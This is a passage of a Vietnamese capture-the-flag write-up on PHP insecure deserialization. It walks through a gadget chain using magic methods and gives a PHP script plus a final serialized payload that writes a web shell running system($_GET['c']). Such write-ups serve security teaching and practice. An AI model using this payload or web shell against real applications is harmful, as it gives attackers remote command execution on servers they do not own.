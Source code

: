 Hàm `getAge()` được gọi thông qua hàm `__toString()`

> Hàm `__toString` được tự động gọi khi class đó được "ép kiểu" sang string bằng các hàm như echo, pre

Để trigger hàm `__toString()` em gán `WakeUp()->name = new WakeUp()` để khi hàm `echo "Hello".$this->name` thì class WakeUp sẽ được "ép kiểu" thành string để nối chuỗi.

Vậy nên hàm `__wakeup()` là sẽ first gadget, nó được gọi khi `$data` được được `unserialize()` 

Em có script:
```php
$a = new WakeUp();
$a -> name = new WakeUp(); // trigger __toString()
$a -> name -> age = new Execute("echo \"<?php echo system(\$_GET['c']) ?>\" > shell.php"); // trigger __get()
$b = serialize($a);
unserialize($b);
```

Payload cuối cùng: 
```
O:6:"WakeUp":2:{s:4:"name";O:6:"WakeUp":2:{s:4:"name";N;s:3:"age";O:7:"Execute":1:{s:8:"filename";s:51:"echo "<?php echo system($_GET['c']) ?>" > shell.php";}}s:3:"age";N;}
```

Up file shell.php thành công việc cần làm giờ là đọc file flag thui:

![](https://hackmd.io/_uploads/SkUPA5qN3.png)
